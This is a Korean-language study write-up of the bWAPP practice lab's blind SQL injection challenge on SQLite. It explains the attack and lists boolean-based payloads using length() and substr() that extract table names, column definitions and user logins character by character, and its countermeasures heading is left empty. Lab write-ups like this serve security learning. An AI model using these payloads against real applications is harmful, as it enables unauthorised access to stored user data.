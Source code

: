 ```yaml
---
title: "[bWAPP] 1. Injection - SQL Injection - Blind(SQLite)"
---
```


<br>

## Injection

공격자가 신뢰할 수 없는 입력을 프로그램에 주입하도록 하는 공격.

<br>

<br>

## SQL Injection

응용 프로그램 보안 상의 허점을 의도적으로 이용해, 

임의의 SQL문을 주입하여 악의적인 SQL문을 실행하게 함으로써

DB를 비정상적으로 조작하는 코드 인젝션의 대표적인 공격.

이로인해 공격자가 DB에 저장되어 있는 다른 사용자의 개인 정보 등 허가되지 않은 정보에 접근하여,

데이터 변조 및 조작 가능.

<br>

<br>

## Blind Injection

Blind SQL Injection으로 많이 사용

SQL인젝션 공격에는 쿼리 조건을 무력화하여 인증을 우회하거나,쿼리 결과에 정보를 붙여서 데이터를 유출하거나 시스템 명령어를 삽입하는 형태로 공격이 진행

하지만, 공격하는 대상 웹페이지가 어떤 오류도 출력하지 않고 쿼리 겨로가 리스트도 제공하지 않는다면 

Blind SQL Injection으로 쿼리 결과의 참/거짓을 통해 DB 값 유출해 내는 기법

<br>

### SQLite

MySQL이나 PostgreSQL과 같은 DBMS지만,

서버가 아니라 응용프로그램에 넣어 사용하는 비교적 가벼운 DB.

일반적인 DBMS에 비해 대규모작업에는 적합하지 않지만, 중소 규모라면 속도에 손색 없음.

또 API는 단순히 라이브러리를 호추하는 것만 있으며, 데이터를 저장하는 데 하나의 파일만을 사용하는 것이 특징.

![image-20220317025423862](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317025423862.png)

- 참 거짓을 이용해 앞서 진행했던 길이, 대소문자 구분, 대조 방법을 이용하자

![image-20220317031022040](image-20220317031022040.png)

- 참

![image-20220317031056272](image-20220317031056272.png)

- 거짓

<br>

### 테이블 조회

![image-20220317030328023](https://raw.githubusercontent.com/EONION-TH3DB/image_repo/main/img/image-20220317030328023.png)

`' or length((select tbl_name from sqlite_master limit 0,1))=1 --`

- 이런식으로 DB의 길이를 하나하나 참 거짓으로 대입해봐서 알아내면 됨
- 길이 구해주고
  - tbl_name = table_name
  - sqlite_master = information_schema

`' or substr((select tbl_name from sqlite_master limit 0,1),1,1)='a' --`

- substring 명령어를 통해 database의 첫번쨰 위치의 길이 1값이 a가 맞는지 확인한다.

`SUBSTR(str, pos, len)`

- str에서 pos 번째 위치의 len개의 문자를 읽어 들임

<br>

### 컬럼 조회

![image-20220317030535569](image-20220317030535569.png)

`' or length((select sql from sqlite_master where tbl_name='heroes' limit 0,1))=1 --`

- 길이
- sql = column_name

`' or substr((select sql from sqlite_master where tbl_name='heroes' limit 0,1),1,1)='a' --`

- 문자 대조!

<br>

### 컬럼 속성

![image-20220317030703941](image-20220317030703941.png)

`' or length((select login from heroes limit 0,1))=1 --`

- 길이

`' or substr((select login from heroes limit 0,1),1,1)='a' --`

- 문자 대조

<br>

<br>

## 대응방안

